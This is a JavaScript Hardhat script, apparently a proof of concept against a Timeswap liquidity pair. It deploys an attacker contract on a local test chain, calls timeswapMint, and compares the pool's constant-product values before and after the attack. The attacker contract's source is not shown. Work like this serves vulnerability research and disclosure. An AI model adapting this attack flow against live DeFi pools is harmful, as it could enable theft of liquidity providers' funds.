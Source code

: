 ```js
    const lpc = await LP.deploy(jtok.address, usdc.address)
    return lpc
}

async function main() {
    const [tokenDeployer, lp, attacker] = await ethers.getSigners();
    let balance = await tokenDeployer.getBalance()
    let factory = await ethers.getContractAt("TimeswapFactory", "0x5FbDB2315678afecb367f032d93F642f64180aa3", signer=tokenDeployer)
    //let [jtok, usdc] = await launchTestTokens(tokenDeployer)
    let jtok = await ethers.getContractAt("TestToken", "0x2279b7a0a67db372996a5fab50d91eaa73d2ebe6", signer=tokenDeployer)
    let usdc = await ethers.getContractAt("TestToken", "0x8a791620dd6260079bf849dc5567adc3f2fdc318", signer=tokenDeployer)
    console.log("Jtok: "+jtok.address)
    console.log("USDC: "+usdc.address)

    //Create Pair
    //let txn = await factory.createPair(jtok.address, usdc.address)
    pairAddress = await factory.getPair(jtok.address, usdc.address)
    pair = await ethers.getContractAt("TimeswapPair", pairAddress, signer=tokenDeployer)
    console.log("Pair address: "+pairAddress);

    // Deploy LP
    //let lpc = await deployLPContract(lp, jtok, usdc)
    let lpc = await ethers.getContractAt("LP", "0x948b3c65b89df0b4894abe91e6d02fe579834f8f", signer=lp)


    let jtokb = await jtok.balanceOf(lpc.address)
    let usdcb = await usdc.balanceOf(lpc.address)
    console.log("LP Jtok: "+jtokb)
    console.log("LP USDC: "+usdcb)

    //let txn2 = await lpc.timeswapMint(1641859791, 15, pairAddress)
    let res = await pair.constantProduct(1641859791);
    console.log("Post LP Constants:", res);

    let atakcontrak = await deployAttackersContract(attacker, jtok, usdc)

    jtokb = await jtok.balanceOf(atakcontrak.address)
    usdcb = await usdc.balanceOf(atakcontrak.address)
    console.log("Attacker Jtok: "+jtokb)
    console.log("Attacker USDC: "+usdcb)

    //mint some tokens
    let txn2 = await atakcontrak.timeswapMint(1641859791, 15, pairAddress)

    let res2 = await pair.constantProduct(1641859791);
    console.log("Post Attack Constants:", res2);

}
main().then(()=>process.exit(0))

```
